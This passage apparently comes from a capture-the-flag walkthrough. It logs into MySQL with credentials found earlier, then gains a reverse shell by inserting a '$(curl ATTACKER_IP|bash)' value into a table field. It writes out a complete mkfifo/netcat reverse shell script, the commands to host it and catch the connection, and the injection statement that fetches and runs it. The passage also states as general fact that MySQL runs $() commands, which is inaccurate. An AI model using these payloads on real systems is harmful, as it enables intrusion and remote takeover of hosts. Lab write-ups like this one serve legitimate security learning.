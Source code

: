 First, let's run the command and provide the password we just found (the string after the `-p` part):

```sh
mysql -u lucien -p
```

Then we can list the databases using `show databases;`:

![601f665ef5c80b810126aff06b2250ea.png](/resources/6cedf94b9fad4063bea587afa49fe840.png)

Select the database using `use library;` then list the tables using `show tables`:

![1d74a559cab348fdc10e3cd3e85910a6.png](/resources/ae80adb87c9a4068a816fe4f46498a23.png)

Now we can print the data using `select * from dreams;`:

![f7806e0d622934b30e768908e2197bab.png](/resources/c372c9a678a740d99b30fb27e1be4d28.png)

In MySQL we can run commands by wrapping the command in `$()`, for example `$(whoami)`.

To get a reverse shell, let's first create a file named `shell.sh` on our attacking machine with the same reverse shell we used in the web shell (change ports if needed):

```sh
#!/usr/bin/env bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4445 >/tmp/f
```

Then host the file using Pythin:

```sh
python3 -m http.server 8888
```

And set up a Netcat listener:

```sh
nc -nvlp 4445
```

Back on the victim machine as `lucien`. We run MySQL again:

```sh
mysql -u lucien -p
use library
```

Now we can inject this `curl` command which will download our `shell.sh` script, pipe it to `bash` and get us a reverse shell:

```mysql
INSERT INTO dreams (dreamer, dream) VALUES ('$(curl <ATTACKER_IP>:8888/shell.sh|bash)', 'TEST');
```

After entering the command we should receive the message "Query OK, 1 row affected (0.01 sec)". Exit MySQL using `exit;`.

```mysql
exit;
```
